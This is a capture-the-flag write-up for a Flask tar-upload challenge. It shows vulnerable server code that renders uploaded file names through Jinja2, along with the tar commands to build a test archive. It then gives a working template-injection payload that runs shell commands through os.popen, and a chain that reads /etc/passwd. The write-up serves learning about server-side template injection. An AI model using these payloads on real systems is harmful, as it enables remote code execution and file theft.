



# thought to solve

firstly, this challenge has 2 or maybe 3 ways to do, but this solution i will display in a way that i fully understand(hopefully that hehe)
Enought nonsense speaking, let's go to solve this challenge:
First here is the main source code we need to focus:

```
#!/usr/bin/env python3
from flask import Flask, request, redirect, render_template, render_template_string
import tarfile
from hashlib import sha256
import os
app = Flask(__name__)

@app.route('/',methods=['GET','POST'])
def main():
    global username
    if request.method == 'GET':
        return render_template('index.html')
    elif request.method == 'POST':
        file = request.files['file']
        if file.filename[-4:] != '.tar':
            return render_template_string("<p> We only support tar files as of right now!</p>")
        name = sha256(os.urandom(16)).digest().hex()
        os.makedirs(f"./uploads/{name}", exist_ok=True)
        file.save(f"./uploads/{name}/{name}.tar")
        try:
            tar_file = tarfile.TarFile(f'./uploads/{name}/{name}.tar')
            tar_file.extractall(path=f'./uploads/{name}/')
            return render_template_string(f"<p>Tar file extracted! View <a href='/view/{name}'>here</a>")
        except:
            return render_template_string("<p>Failed to extract file!</p>")

@app.route('/view/<name>')
def view(name):
    if not all([i in "abcdef1234567890" for i in name]):
        return render_template_string("<p>Error!</p>")
        #print(os.popen(f'ls ./uploads/{name}').read())
            #print(name)
    files = os.listdir(f"./uploads/{name}")
    out = '<h1>Files</h1><br>'
    files.remove(f'{name}.tar')  # Remove the tar file from the list
    for i in files:
        out += f'<a href="/read/{name}/{i}">{i}</a>'
       # except:
    return render_template_string(out)

@app.route('/read/<name>/<file>')
def read(name,file):
    if (not all([i in "abcdef1234567890" for i in name])):
        return render_template_string("<p>Error!</p>")
    if ((".." in name) or (".." in file)) or (("/" in file) or "/" in name):
        return render_template_string("<p>Error!</p>")
    f = open(f'./uploads/{name}/{file}')
    data = f.read()
    f.close()
    return data

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=1337)
```

1. server only accept tar archive
2. the tar archive is given a random name, saved in uploads/{name}. Its contents are extracted in the same path
3. when viewed using /view/{name} endpoint, the tar archive is deleted and the listing of files is shown.

I will not talk about **read/...** cause this solution don't need to use that feature but others need this :)). <br>

I see that parameter **"name"** is passed directly
without sanitzation in **render_template_string()**. And flash use jinja2 as the main template. <br>

---

But…

We have two problems at hand.

1. how can we execute python code inside the jinja2 template?

2. we don’t know the flag name (as shown in the Dockerfile, it's been redacted) <br>

Firstly, we can test this out by archiving a file called {{5*5}} and viewing it in the /view endpoint

Here is how we can go about doing so.

```
touch "{{5*5}}"
tar -cvf proof-of-concept.tar "{{5*5}}"
```

After the upload, we can see that the website indeed rendered 25 instead of {{5*5}}. <br>
Since everything is an object, meaning everything in python inherents from the object class. we can climb the inheretence tree to reach all the subclasses available, select the one we want to use to execute a shell command, and boom, command executed. Like this:

```
''.__class__.__base__.__subclasses__()[<index-of-_io._IOBase>].__subclasses__()[<index-of-_io._RawIOBase>].__subclasses__()[<index-of-_io.FileIO>]('/etc/passwd').read()
```

Here, i don't have much time to talk deeply but i will link 2 references that helps me a lot to finish this challenge. Here is my main payload:

```
{{self._TemplateReference__context.cycler.__init__.__globals__.os.popen('id').read()}}
```

This code uses Jinja2 to access internal Python objects and use them to execute system commands.
Through a series of steps accessing hidden properties and methods of Jinja2, it eventually accesses the Python os module and runs the id command.


it's look good, right. Next we change 'id' to 'ls'


there we go, flag.... flag is coming to us. Finally, cat flag..... and boom.


you can watch things relevant to this challenge more in two links below. Hopefully, you and i could learn sth.

# References

https://hxuu.github.io/blog/ctf/n00bz24/file-sharing-portal/
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#jinja2
